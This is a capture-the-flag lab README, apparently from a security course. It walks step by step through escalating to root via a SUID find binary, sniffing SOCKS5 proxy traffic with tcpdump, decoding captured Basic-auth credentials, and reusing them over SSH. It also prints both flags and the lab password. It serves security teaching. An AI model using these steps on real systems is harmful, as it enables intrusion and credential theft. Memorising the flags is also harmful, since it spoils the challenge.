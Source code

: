# Jump Around

This challenge is about privilege escalation and sniffing socks5 proxy traffic

The challenge starts 3 servers:

1. Server A (172.20.0.45)
    * simple HTTP server that represents some application
    * not very important 
2. Server B (172.20.0.47)
    * Running SSH server and Socks5 proxy
    * Students gets SSH credentials for restricted user
3. Server C (172.20.0.49)
    * Running SSH server and 
    * Periodically runs a script that sends HTTP login requests to the server A via the proxy in server B (represents victim's actions)
    * The credentials sent in the HTTP login requests are the same as credentials for the local SSH

### Tasks

1. First task is for student to escalate privileges to root in server B
2. When student has root access, (s)he should realize there is a socks5 proxy running and try to sniff traffic. There are credentials to server C in the traffic.

## How to solve
<details>
  <summary>Click to reveal how to solve steps</summary>

1. Connect to the server B with provided credentials from the description of the 1st task and run linpeas.sh

```bash
root@hackerlab:~# ssh bob@172.20.0.47
...
bob@a87a002f6fe0:~$ wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
...
bob@a87a002f6fe0:~$ chmod +x linpeas.sh 
bob@a87a002f6fe0:~$ ./linpeas.sh
...
```

The output should have a glowing yellow colour on find command in SUID bits section signalising it's very likely a priv esc opportunity
```bash
-rwsr-sr-x 1 root root 220K Jan  8  2023 /usr/bin/find
```

2. Find `find` tool in GTFO bins - https://gtfobins.github.io/gtfobins/find/
3. We can escalate privileges using command
```bash
bob@a87a002f6fe0:~$ find . -exec whoami \; -quit
root
```

4. Like this we can spawn a shell and read the filesystem to find the 1st flag
```bash
bob@a87a002f6fe0:~$ find . -exec bash -p \; -quit
bash-5.2# whoami
root
bash-5.2# ls /root
flag.txt
bash-5.2# cat /root/flag.txt
BSY{QQgCzB3HmryOC7aijBJfeylUYOzgMviOIkdBzlMmGYgJWoY4Sz21s3ZcIPiW}
```

5. Second task tells us to find out what is the system used for. In output of processes we see a lot `danted` keyword
```bash
bash-5.2# ps aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.0   3924  3040 ?        Ss   18:08   0:00 /bin/bash /opt/start.sh
root           8  0.0  0.0  28280  4536 ?        Ss   18:08   0:00 danted -f /etc/danted.conf -D
root           9  0.0  0.0  15428  9496 ?        S    18:08   0:00 sshd: /usr/sbin/sshd -D [listener] 0 of 10-100 startups
root          10  0.0  0.0  27984  4020 ?        S    18:08   0:00 danted: monitor-child
root        9501  0.0  0.0  17592 10936 ?        Ss   18:12   0:00 sshd: bob [priv]
bob         9508  0.0  0.0  17852  7092 ?        S    18:12   0:00 sshd: bob@pts/0
bob         9509  0.0  0.0   4188  3484 pts/0    Ss   18:12   0:00 -bash
root        9516  0.0  0.0  28412  4168 ?        S    18:12   0:00 danted: request-child: 0/1
root        9517  0.0  0.0  28412  4168 ?        S    18:12   0:00 danted: request-child: 0/1
root        9518  0.0  0.0  28412  4168 ?        S    18:12   0:00 danted: request-child: 0/1
root        9519  0.0  0.0  28412  4168 ?        S    18:12   0:00 danted: request-child: 0/1
root        9521  0.0  0.0  28412  4168 ?        S    18:12   0:00 danted: request-child: 0/1
root        9522  0.0  0.0  29736  5868 ?        S    18:12   0:00 danted: io-child: 0/32 (0 in
root        9523  0.0  0.0  28412  4168 ?        S    18:12   0:00 danted: request-child: 0/1
root        9526  0.0  0.0  28412  4168 ?        S    18:12   0:00 danted: request-child: 0/1
root        9529  0.0  0.0  28976  4888 ?        S    18:12   0:00 danted: negotiate-child: 0/9
root        9530  0.0  0.0  28412  4168 ?        S    18:12   0:00 danted: request-child: 0/1
root        9531  0.0  0.0  28808  4460 ?        S    18:12   0:00 danted: negotiate-child: 0/9
root        9532  0.0  0.0  28412  4168 ?        S    18:12   0:00 danted: request-child: 0/1
root        9533  0.0  0.0  28412  4168 ?        S    18:13   0:00 danted: request-child: 0/1
root        9534  0.0  0.0  28412  4168 ?        S    18:13   0:00 danted: request-child: 0/1
root        9535  0.0  0.0  28412  4168 ?        S    18:13   0:00 danted: request-child: 0/1
root        9536  0.0  0.0  28412  4168 ?        S    18:13   0:00 danted: request-child: 0/1
root        9537  0.0  0.0  28412  4168 ?        S    18:13   0:00 danted: request-child: 0/1
root        9538  0.0  0.0  28412  4168 ?        S    18:13   0:00 danted: request-child: 0/1
root        9540  0.0  0.0  28412  4168 ?        S    18:13   0:00 danted: request-child: 0/1
root        9541  0.0  0.0  29468  4804 ?        S    18:13   0:00 danted: io-child: 0/32 (0 in
root        9542  0.0  0.0   4616  1460 pts/0    S+   18:13   0:00 find . -exec ps aux ; -quit
root        9543  0.0  0.0   8088  3960 pts/0    R+   18:13   0:00 ps aux 
```
By googling the `danted` keyword students should realize it's a proxy. The task description also suggests someone is using the machine so someone might be using the proxy. Since
students are now root, they can try to sniff traffic

6. By sniffing the traffic we can see some HTTP traffic coming from IP `172.20.0.49`
```bash
bash-5.2# tcpdump -n -v -A not port 22
tcpdump: listening on eth0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
...
18:15:49.104586 IP (tos 0x0, ttl 64, id 5254, offset 0, flags [DF], proto TCP (6), length 220)
    172.20.0.49.42200 > 172.20.0.47.1080: Flags [P.], cksum 0x5957 (incorrect -> 0x799f), seq 15:183, ack 13, win 502, options [nop,nop,TS val 3800977738 ecr 2764428910], length 168
E.....@.@......1.../...8......
c....YW.....
..QJ...nPOST /login HTTP/1.1
Host: 172.20.0.45
User-Agent: curl/7.88.1
Accept: */*
Authorization: Basic YWRtaW46c3VwZXItc2VjcmV0LXBhc3N3b3JkLWNhbm5vdC1iZS1ndWVzc2VkCg==
 
```
7. There is Authorization header of Basic type (base64 encoded credentials). We can decode it to see the credentials
```
root@hackerlab:~# echo "YWRtaW46c3VwZXItc2VjcmV0LXBhc3N3b3JkLWNhbm5vdC1iZS1ndWVzc2VkCg==" | base64 -d
admin:super-secret-password-cannot-be-guessed
```

8. The `172.20.0.49` seems to have only SSH running
```bash
root@hackerlab:~# nmap 172.20.0.49
Starting Nmap 7.93 ( https://nmap.org ) at 2024-10-30 18:17 UTC
Nmap scan report for scl-challenge-victim.playground-net (172.20.0.49)
Host is up (0.0000080s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
MAC Address: 02:42:AC:14:00:31 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.22 seconds
```

9. Maybe someone is reusing passwords and the credentials could work for the SSH? Yes, that's correct.

```bash
root@hackerlab:~# ssh admin@172.20.0.49
admin@172.20.0.49 password: 
Linux 5249928d2b8f 6.1.0-18-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.76-1 (2024-02-01) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Oct 30 18:19:33 2024 from 172.20.0.2

admin@5249928d2b8f:~$ ls
flag.txt

admin@5249928d2b8f:~$ cat flag.txt
BSY{THd8a6l0GCoRDpRThK9z1FnoEcl0y0cV8CTUGNBWwXHXAC5XDyNVqIP5mDHH}
```

Voilá, we found the 2nd flag! Congrats.

</details>

## Testing


The script [auto-solve.sh](./auto-solve.sh) automatically verifies that the challenge can be solved.
